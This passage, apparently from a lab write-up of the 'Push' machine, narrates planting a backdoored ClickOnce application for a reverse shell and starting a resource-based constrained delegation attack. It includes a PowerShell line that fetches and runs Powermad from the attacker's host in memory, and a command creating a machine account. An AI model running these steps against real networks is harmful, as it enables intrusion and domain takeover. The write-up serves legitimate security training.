 Now that we have our backdoored ClickOnce application ready we can upload it on the share in hope that we receive a reverse connection. I uploaded the backdoored ClickOnce application and ran my multihandler in hopes to receive a reverse connection. After a minute or so I received my shell as the user kelly.hill.
![_install](/assets/img/VL-Push/16.png)

# Domain Privilege Escalation
If we look at the privileges of the user kelly.hill we can see in bloodhound that the user has AllExtendedRights on the MS01 machine
![_install](/assets/img/VL-Push/17.png)

Also MachineAccountQuota is set to "10" which means that we are able to do a Resource Based Constrained Delegation (RBCD) attack. 
![_install](/assets/img/VL-Push/18.png)

I loaded Powermad in memory and created a new machine account as follows:
```powershell
iex(iwr http://10.8.0.49/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
```
![_install](/assets/img/VL-Push/19.png)


